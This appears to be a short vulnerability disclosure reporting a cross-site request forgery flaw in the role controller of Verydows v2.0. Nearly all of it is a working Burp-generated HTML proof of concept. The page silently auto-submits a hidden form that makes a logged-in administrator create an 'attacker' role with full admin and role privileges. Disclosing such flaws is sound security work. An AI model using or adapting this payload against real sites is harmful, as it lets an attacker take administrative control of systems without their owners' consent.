


target:https://gitee.com/cigery/verydows

version:v2.0

Verydows v2.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /protected/controller/backend/role_controller


create poc



```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://localhost/index.php?m=backend&c=role&a=add&step=submit" method="POST">
      <input type="hidden" name="role&#95;name" value="attacker" />
      <input type="hidden" name="role&#95;desc" value="" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="admin&#64;index" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="admin&#64;add" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="admin&#64;edit" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="admin&#64;delete" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="role&#64;index" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="role&#64;add" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="role&#64;edit" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="role&#64;delete" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

successed




